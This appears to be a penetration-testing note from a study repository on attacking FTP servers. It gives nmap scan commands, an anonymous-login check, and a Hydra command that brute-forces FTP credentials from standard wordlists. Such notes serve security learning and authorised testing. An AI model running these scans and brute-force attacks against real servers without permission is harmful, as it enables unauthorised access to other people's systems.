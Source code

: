 # Exploiting FTP
> FTP is File Transfer Protocol. It uses TCP port 21. FTP is used to facilitate file sharing between a server and its clients. FTP is also frequently used as a means of transferring files to and from the directory of a web server.

## Contents
- [Intro](#intro)
- [Exploit: Brute Force](#exploit-brute-force)
  - [Nmap: Scan the Target](#nmap-scan-the-target)
  - [Connect to the FTP Server](#connect-to-the-ftp-server)
  - [NSE: FTP Scripts](#nse-ftp-scripts)
  - [Hydra: Brute-Force Attack](#hydra-brute-force-attack)
  - [Login](#login)
 
## Intro

- FTP authentication requires a username and password combo.
- Possible Misconfiguration Vulnerability: Anonymous login 
- Most often, unless you find an vulnerable FTP server, you're pretty much left with brute-forcing a password.


## Exploit: Brute Force

### Nmap: Scan the Target
- Start with a scan of the target system:
```
nmap -sS -sV -sC -O -p- [target ip]
# of if you know port 21 is open, scan it only
```

### Connect to the FTP Server
```
ftp [target ip]
```
- When prompted for the username: anonymous
- When prompted for the password: ENTER
- If it fails then anonymous logins are not allowed.

### NSE: FTP Scripts
- Find an nmap script for ftp:
```
ls -l /usr/share/nmap/scripts | grep ftp-*
```
- The `ftp-anon` script will check for anonymous logins. 

### [Hydra](../../hydra.md): Brute-Force Attack
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/.../unix_passwords.txt [ip] -t 4 ftp
```
- `-L` login names to use
- `-P` passwords to use
- `-t` threads, lower to avoid DoSing the target

### Login
- If Hydra gave you some results, try to login to the target system.
